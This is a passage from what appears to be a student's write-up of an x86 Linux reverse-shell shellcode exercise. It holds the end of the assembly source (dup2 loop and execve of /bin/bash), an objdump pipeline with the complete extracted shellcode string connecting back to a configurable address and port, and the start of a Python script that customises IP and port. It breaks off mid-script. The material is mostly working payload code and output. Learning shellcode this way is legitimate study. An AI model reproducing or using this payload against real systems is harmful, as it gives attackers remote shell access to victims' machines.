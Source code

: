 ```
        inc ebx
        int 0x80

        ; save the socketfd, zero and add two to ecx for dup2 loop
        xchg ebx, edi
        xor ecx, ecx
        mov cl, 0x2
dup:
        ; int dup2(int oldfd, int newfd)
        mov al, 63
        int 0x80
        dec ecx
        jns dup

shell:
        ; int execve(const char *pathname, char *const argv[], char *const envp[])
        ; Zero Out eax for first null (envp) and push to stack
        xor eax, eax
        push eax

        ; Now, push the string bin bash onto the stack for argv
        push 0x68736162
        push 0x2f6e6962
        push 0x2f2f2f2f

        ; Now, need filename
        ; EZ, pop into EBX
        mov ebx, esp

        push eax
        mov edx, esp
        push ebx
        mov ecx, esp

        ; Now, set up syscall
        mov al, 0xb
        int 0x80
```

Objdump output:

```
$ objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\xb0\x66\x53\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xcd\x80\x89\xc7\xb0\x66\x43\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x53\x89\xe6\x6a\x10\x56\x57\x89\xe1\x43\xcd\x80\x87\xdf\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Plugging that into shellcode.c works as expected. The next step is creating a wrapper script, similar to the python portGen from Task 1, in order to configure the port and IP at will. I took the portGen.py code and modified it very slightly to add an additional method which converts a provided IP address into hexadecimal format. This is then plugged in to the same location the IP bytes normally go. Since IP addresses are defined with octets, each ranging from 0-255, we don't need to worry about size discrepancies at all.
``` python
#!/usr/bin/env python

import sys
import socket
import binascii

if len(sys.argv) < 3:
    print("[-] Provide a port (> 256) and IP address")
```